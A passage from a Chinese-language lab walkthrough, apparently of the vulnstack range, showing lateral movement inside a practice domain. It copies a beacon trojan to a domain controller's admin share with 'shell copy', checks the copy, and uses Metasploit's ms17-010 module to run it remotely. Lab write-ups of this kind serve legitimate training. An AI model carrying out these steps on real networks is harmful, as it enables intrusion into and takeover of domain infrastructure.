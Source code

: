 <br>

将Web服务器C盘的无状态木马拷贝至域控服务器C盘处: `shell copy c:\\beacon.exe \\192.168.52.138\c$`

![image-20221016211855921](vulnstack靶场系列一/image-20221016211855921.png)	

<br>

查看域控的C盘目录: `shell dir \\192.168.52.138\c$`, 判断木马是否拷贝成功

![image-20221017091802106](vulnstack靶场系列一/image-20221017091802106.png)	

<br>

返回MSF界面, 利用ms17010漏洞远程命令执行C盘的无状态木马: `set command c:\\beacon.exe`

![image-20221016221341279](vulnstack靶场系列一/image-20221016221341279.png)
